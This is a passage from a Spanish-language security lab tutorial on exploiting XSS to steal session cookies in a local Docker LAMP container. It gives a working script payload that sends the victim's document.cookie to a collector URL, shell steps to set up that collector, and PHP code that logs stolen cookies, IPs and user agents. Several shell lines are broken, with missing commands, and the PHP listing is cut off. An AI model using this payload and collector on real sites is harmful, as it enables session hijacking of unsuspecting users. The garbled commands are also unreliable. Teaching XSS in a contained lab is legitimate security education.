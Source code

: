 
### 🍪 Captura de Cookies del Usuario y Robo de Sesiones

Una de las formas más peligrosas de explotación de XSS es el robo de **cookies de sesión**, lo cual puede permitir a un atacante **secuestrar la sesión** de otro usuario.

Al insertar el siguiente script en el campo del formulario de la aplicación vulnerable, se puede capturar la cookie del usuario:

```javascript
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
```
Esta entrada crea una imagen invisible que envía la cookie como parámetro a un servidor controlado por el atacante.

Para que el ataque funcione, es necesario configurar un endpoint en el servidor del atacante para recibir y almacenar las cookies robadas. En este caso, para realizar la tarea de manera más sencilla vamos a simular este envío y esta redirección de la información dentro de la propia máquina. Primero, nos vamos a meter dentro del contenedor:

```bash
docker exec -it lamp-php83 /bin/bash
```

Una vez dentro, vamos a crear las carpetas y archivos necesarios para quedar bien registrada la sesión robada:

```bash
mkdir /var/www/html/cookieStealer/
/var/www/html/cookieStealer/index.php
/var/www/html/cookieStealer/cookies.txt
777 /var/www/html/cookieStealer/cookies.txt
```

El archivo ``index.php`` contiene este código:
```bash
<?php
// Obtener la fecha actual
$date = date("Y/m/d H:i:s");

// Obtener la dirección IP, User Agent y Referer
$ip = $_SERVER['REMOTE_ADDR'];
$user_agent = isset($_SERVER['HTTP_USER_AGENT']) ? $_SERVER['HTTP_USER_AGENT'] : 'No User Agent';
$referer = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : 'No Referer';

// Obtener el parámetro 'cookie' de la URL
$cookie = isset($_GET['cookie']) ? $_GET['cookie'] : 'No Cookie Provided';

// Escapar las variables para evitar inyecciones de código
$cookie = htmlspecialchars($cookie, ENT_QUOTES, 'UTF-8');
$user_agent = htmlspecialchars($user_agent, ENT_QUOTES, 'UTF-8');
$referer = htmlspecialchars($referer, ENT_QUOTES, 'UTF-8');

// Intentar abrir el archivo de registro
$file = fopen("cookies.txt", "a");

if ($file === false) {
    // Si no se puede abrir el archivo, responder con error
    echo json_encode(["status" => 500, "message" => "Error opening file"]);
    exit();
}

// Escribir la información en el archivo
fwrite($file, "[+] Date: {$date}\n[+] IP: {$ip}\n[+] UserAgent: {$user_agent}\n[+] Referer: {$referer}\n[+] Cookies: {$cookie}\n---\n");

// Cerrar el archivo
```